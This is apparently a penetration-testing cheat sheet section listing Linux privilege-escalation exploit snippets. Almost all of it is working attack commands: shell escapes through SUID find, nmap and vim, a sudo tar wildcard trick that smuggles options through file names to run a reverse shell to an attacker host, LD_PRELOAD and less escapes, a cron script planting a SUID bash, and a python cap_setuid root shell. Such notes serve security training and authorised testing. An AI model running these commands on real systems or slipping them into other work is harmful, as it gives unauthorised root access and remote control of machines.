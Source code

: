 
## 4) Exploit Snippets (Use exact scenario)

### Linux – SUID / Sudo / Cron / Capabilities / Containers / NFS / Kernel

**SUID find → root shell**
```bash
find /etc/passwd -exec /bin/sh \;
# find -exec runs /bin/sh as file owner (root) when find is SUID-root.
```

**SUID nmap (<5.21)**
```bash
nmap --interactive
# at prompt: !sh
```

**SUID vim**
```bash
vim -c ':set shell=/bin/bash|shell'
# Run shell from vim; inherits root via SUID.
```

**Sudo tar wildcard**
```bash
cd /opt
echo 'bash -i >& /dev/tcp/<KALI_IP>/4444 0>&1' > shell.sh
echo "" > "--checkpoint=1"
echo "--checkpoint-action=exec=sh shell.sh" > "--checkpoint-action=exec=sh shell.sh"
sudo /bin/tar -cf backup.tar *
# File names become tar options; executes shell.sh as root.
```

**Sudo less escape**
```bash
sudo less /var/log/auth.log
# inside less: !sh
```

**Sudo with LD_PRELOAD (env preserved)**
```bash
# Compile malicious .so (constructor spawns /bin/bash)
sudo LD_PRELOAD=/tmp/shell.so -E /bin/true
```

**Cron writable script → SUID bash**
```bash
echo -e '#!/bin/bash\ncp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' | sudo tee /usr/local/bin/backup.sh
# Wait for cron, then:
/tmp/rootbash -p
```

**Capabilities: python cap_setuid**
```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```
